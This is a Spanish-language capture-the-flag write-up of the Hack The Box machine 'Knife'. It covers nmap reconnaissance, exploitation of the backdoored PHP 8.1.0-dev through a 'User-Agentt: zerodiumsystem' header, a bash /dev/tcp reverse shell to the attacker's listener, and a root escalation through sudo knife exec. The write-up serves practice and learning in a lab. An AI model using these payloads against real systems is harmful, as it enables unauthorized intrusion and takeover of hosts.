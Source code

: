 ```yaml
---
title: Knife - HTB Writeup
date: 2023-09-08 03:20:00 +0800
categories: [Writeups, HTB]
tags: [Easy, Linux, Writeup]
image:
  path: /assets/img/post/knife/jimmy-chang-Q67YYjgXBfY-unsplash.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


**Knife** es una máquina de dificultad ```Easy``` en la plataforma **Hack The Box**

En esta máquina explotaremos una **vulnerabilidad** de la versión ```8.1.8-dev``` de ```PHP```

## **Reconocimiento**

Realizaremos un escaneo con ```nmap``` para descunrir puertos abiertos en la máquina

```bash
nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.10.10.242 -oG allPorts
```

![img](/assets/img/post/knife/d39b61c6-b6af-410d-ac30-6014585c55d5.png)

Vemos que están abiertos el puerto ```22``` y el ```80```

Vamos a realizar un escaneo de servicios y versiones sobre estos puertos:

```bash
nmap -sCV -p22,80 10.10.10.242 -oN versions
```

![img](/assets/img/post/knife/ba998012-681a-4d58-9014-5f242f7f0ec6.png)

Podemos ver que por el puerto ```22``` corre un servicio ```SSH``` y por el ```80``` un ```HTTP```

Con ```curl``` haremos una petición en la web a ver que nos devuelve:

```bash
curl -i 10.10.10.242
```

![img](/assets/img/post/knife/5ede2a37-310b-4750-856d-78e1fb163cbe.png)

## **Explotación**

Como podemos ver en la cabecera del ```output``` que nos devuelve el ```curl```, la web es lanzada por un servicio ```PHP/8.1.0-dev```

Si buscamos información sobre esta **versión** de ```PHP```, podemos ver que esta es vulnerable a un ```RCE``` *(Remote Command Execution)* utilizando la cabecera:

```bash
User-Agentt: zerodiumsystem(‘command’);
```

Podemos realizar una prueba para ver si el ```RCE``` da resultados:

```bash
curl -X GET "http://10.10.10.242/" -H "User-Agentt: zerodiumsystem('bash -c \"id\"');"
uid=1000(james) gid=1000(james) groups=1000(james)
```

Como podemos ver el ```RCE``` funciona, así que vamos a conseguir una ```reverse shell```:

```bash
curl -X GET "http://10.10.10.242/" -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/10.10.14.8/443 0>&1\"');"
```

En otra consola nos pondremos en escucha con ```nc``` por el puerto que hayamos indicado:

```bash
nc -lvnp 443
```

Y ya tendriamos acceso al sistema:

![img](/assets/img/post/knife/1e64cb21-0ac4-46e6-8a25-3190cb332811.png)

## **Escalada de Privilegios**

Para realizar la escalada ejecutaremos: 

```bash
sudo -l
```

para ver los ```binarios``` que podemos ejecutar como ```root```, los cuales en este caso son los siguientes:

![img](/assets/img/post/knife/f1d1188d-4b91-416c-a6b0-33458b263970.png)

Si ejecutamos ```/usr/bin/knife``` podemos ver que hace:

```bash
james@knife:/$ /usr/bin/knife -h                        
knife exec [SCRIPT] (options)
```

Usaremos esto para conseguir una consola como root, para ello ejecutaremos el siguiente comando:

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
id
uid=0(root) gid=0(root) groups=0(root)
```

Y ya tendremos acceso como root a la máquina

Espero que haya ayudado, se agradece cualquier tipo de comentario para mejorar poco a poco. Adios!